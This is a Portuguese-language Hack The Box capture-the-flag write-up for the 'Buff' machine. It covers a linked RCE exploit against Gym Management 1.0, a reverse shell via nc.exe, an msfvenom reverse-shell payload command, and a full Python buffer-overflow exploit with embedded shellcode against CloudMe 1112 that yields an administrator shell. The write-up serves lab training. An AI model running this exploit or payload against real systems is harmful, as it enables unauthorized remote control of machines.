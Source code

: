 Enumeração de serviços:
![[Write-up/Hack The Box/Buff/img/Pasted image 20240303104103.png]]
Identificação do software instalado no website:
![[Write-up/Hack The Box/Buff/img/Pasted image 20240303104140.png]]
Com uma rápida pesquisa, descobrimos um exploit pra essa versão de software:
https://github.com/0xConstant/Gym-Management-1.0-unauthenticated-RCE/blob/main/exploit.py
E conseguimos um RCE no alvo:
![[Write-up/Hack The Box/Buff/img/Pasted image 20240303105139.png]]
Vamos pegar uma shell reversa enviando o nc.exe para o alvo e depois nos enviando o cmd.exe:
![[Write-up/Hack The Box/Buff/img/Pasted image 20240303105620.png]]
Navegando pelos diretórios, encontramos em Downloads o software CloudMe_1112.exe. Ao pesquisar na internet sobre, descobrimos uma vulnerabilidade de BoF na mesma versão encontrada.
Vamos confirmar se o mesmo está sendo executado no alvo:
![[Write-up/Hack The Box/Buff/img/Pasted image 20240303110634.png]]
Identificamos a porta 8888 aberta localmente, o que indica que o CloudMe está rodando.
Vamos então fazer o encaminhamento da porta 8888 para a máquina atacante:
![[Write-up/Hack The Box/Buff/img/Pasted image 20240303112730.png]]
Agora vamos gerar o shellcode com o payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=2222 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
```
E utilizamos o exploit encontrado para explorar o software vulnerável:
```python
import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

buf =  b""
buf += b"\xda\xcb\xd9\x74\x24\xf4\xbf\x1a\xdc\xd2\xa7\x5e"
buf += b"\x33\xc9\xb1\x52\x31\x7e\x17\x83\xc6\x04\x03\x64"
buf += b"\xcf\x30\x52\x64\x07\x36\x9d\x94\xd8\x57\x17\x71"
buf += b"\xe9\x57\x43\xf2\x5a\x68\x07\x56\x57\x03\x45\x42"
buf += b"\xec\x61\x42\x65\x45\xcf\xb4\x48\x56\x7c\x84\xcb"
buf += b"\xd4\x7f\xd9\x2b\xe4\x4f\x2c\x2a\x21\xad\xdd\x7e"
buf += b"\xfa\xb9\x70\x6e\x8f\xf4\x48\x05\xc3\x19\xc9\xfa"
buf += b"\x94\x18\xf8\xad\xaf\x42\xda\x4c\x63\xff\x53\x56"
buf += b"\x60\x3a\x2d\xed\x52\xb0\xac\x27\xab\x39\x02\x06"
buf += b"\x03\xc8\x5a\x4f\xa4\x33\x29\xb9\xd6\xce\x2a\x7e"
buf += b"\xa4\x14\xbe\x64\x0e\xde\x18\x40\xae\x33\xfe\x03"
buf += b"\xbc\xf8\x74\x4b\xa1\xff\x59\xe0\xdd\x74\x5c\x26"
buf += b"\x54\xce\x7b\xe2\x3c\x94\xe2\xb3\x98\x7b\x1a\xa3"
buf += b"\x42\x23\xbe\xa8\x6f\x30\xb3\xf3\xe7\xf5\xfe\x0b"
buf += b"\xf8\x91\x89\x78\xca\x3e\x22\x16\x66\xb6\xec\xe1"
buf += b"\x89\xed\x49\x7d\x74\x0e\xaa\x54\xb3\x5a\xfa\xce"
buf += b"\x12\xe3\x91\x0e\x9a\x36\x35\x5e\x34\xe9\xf6\x0e"
buf += b"\xf4\x59\x9f\x44\xfb\x86\xbf\x67\xd1\xae\x2a\x92"
buf += b"\xb2\xda\xa0\x92\x4b\xb3\xb6\xaa\x43\xed\x3e\x4c"
buf += b"\x39\xe1\x16\xc7\xd6\x98\x32\x93\x47\x64\xe9\xde"
buf += b"\x48\xee\x1e\x1f\x06\x07\x6a\x33\xff\xe7\x21\x69"
buf += b"\x56\xf7\x9f\x05\x34\x6a\x44\xd5\x33\x97\xd3\x82"
buf += b"\x14\x69\x2a\x46\x89\xd0\x84\x74\x50\x84\xef\x3c"
buf += b"\x8f\x75\xf1\xbd\x42\xc1\xd5\xad\x9a\xca\x51\x99"
buf += b"\x72\x9d\x0f\x77\x35\x77\xfe\x21\xef\x24\xa8\xa5"
buf += b"\x76\x07\x6b\xb3\x76\x42\x1d\x5b\xc6\x3b\x58\x64"
buf += b"\xe7\xab\x6c\x1d\x15\x4c\x92\xf4\x9d\x6c\x71\xdc"
buf += b"\xeb\x04\x2c\xb5\x51\x49\xcf\x60\x95\x74\x4c\x80"
buf += b"\x66\x83\x4c\xe1\x63\xcf\xca\x1a\x1e\x40\xbf\x1c"
buf += b"\x8d\x61\xea"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + buf))	

buf = padding1 + EIP + NOPS + buf + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
            
```
Ao executar conseguimos a shell reversa do administrador:
![[Write-up/Hack The Box/Buff/img/Pasted image 20240303113431.png]]